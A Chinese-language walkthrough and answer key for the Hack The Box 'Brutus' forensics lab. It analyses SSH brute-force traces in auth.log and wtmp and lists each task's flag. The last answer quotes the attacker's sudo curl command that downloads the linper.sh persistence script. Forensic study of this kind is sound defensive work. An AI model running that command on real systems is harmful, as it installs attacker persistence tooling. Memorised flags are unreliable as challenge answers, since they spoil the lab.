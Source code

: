 # HTB Sherlocks Brutus

题目附件：[下载地址](./attachments/Brutus.zip)

解压密码：`hacktheblue`

[官方 Writeup](./attachments/Sherlocks%20Brutus%20Official%20Writeup.pdf)

## 任务1

> 分析 auth.log。攻击者用于进行暴力破解的 IP 地址是什么？（x.x.x.x）

检索关键词 `Failed password`

FLAG：`65.2.161.68`

## 任务2

> 暴力破解尝试已成功，攻击者获得了服务器上某个账户的访问权限。该账户的用户名是什么？（***t）

检索关键词 `Accepted password`

FLAG：`root`

## 任务3

> 确定攻击者手动登录服务器并建立终端会话以执行其目标的 UTC 时间戳。登录时间与认证时间不同，可在 wtmp 工件中找到。（YYYY-MM-DD HH:MM:SS）

- 使用 last 命令

```bash
$ last -f wtmp -F
cyberjun pts/1        65.2.161.68      Wed Mar  6 14:37:35 2024   gone - no logout
root     pts/1        65.2.161.68      Wed Mar  6 14:32:45 2024 - Wed Mar  6 14:37:24 2024  (00:04)
root     pts/0        203.101.190.9    Wed Mar  6 14:19:55 2024   gone - no logout
reboot   system boot  6.2.0-1018-aws   Wed Mar  6 14:17:15 2024   still running
root     pts/1        203.101.190.9    Sun Feb 11 18:54:27 2024 - Sun Feb 11 19:08:04 2024  (00:13)
root     pts/1        203.101.190.9    Sun Feb 11 18:41:11 2024 - Sun Feb 11 18:41:46 2024  (00:00)
root     pts/0        203.101.190.9    Sun Feb 11 18:33:49 2024 - Sun Feb 11 19:08:04 2024  (00:34)
root     pts/0        203.101.190.9    Thu Jan 25 19:15:40 2024 - Thu Jan 25 20:34:34 2024  (01:18)
ubuntu   pts/0        203.101.190.9    Thu Jan 25 19:13:58 2024 - Thu Jan 25 19:15:12 2024  (00:01)
reboot   system boot  6.2.0-1017-aws   Thu Jan 25 19:12:17 2024 - Sun Feb 11 19:09:18 2024 (16+23:57)

wtmp begins Thu Jan 25 19:12:17 2024
```

- 使用提供的脚本

```bash
python3 utmp.py wtmp -o wtmp.out
```

FLAG：`2024-03-06 06:32:45`

## 任务4

> SSH 登录会话在登录时会被跟踪并分配一个会话编号。对于问题 2 中该用户账户的攻击者会话，被分配的会话编号是多少？（XX）

```
Mar  6 06:32:44 ip-172-31-35-28 sshd[2491]: Accepted password for root from 65.2.161.68 port 53184 ssh2
Mar  6 06:32:44 ip-172-31-35-28 sshd[2491]: pam_unix(sshd:session): session opened for user root(uid=0) by (uid=0)
Mar  6 06:32:44 ip-172-31-35-28 systemd-logind[411]: New session 37 of user root.
```

FLAG：`37`

## 任务5

> 攻击者在服务器上作为其持久化策略的一部分添加了一个新用户，并为该新用户账户赋予了更高的权限。该账户的名称是什么？

FLAG：`cyberjunkie`

## 任务6

> 通过创建新账户进行持久化所对应的 MITRE ATT&CK 子技术编号是什么？（TXXXX.XXX）

FLAG：`T1136.001`

## 任务7

> 根据 auth.log，攻击者的首次 SSH 会话在何时结束？（YYYY-MM-DD HH:MM:SS）

FLAG：`2024-03-06 06:37:24`

## 任务8

> 攻击者登录其后门账户并利用更高权限下载了一个脚本。使用 sudo 执行的完整命令是什么？

FLAG：`/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh`
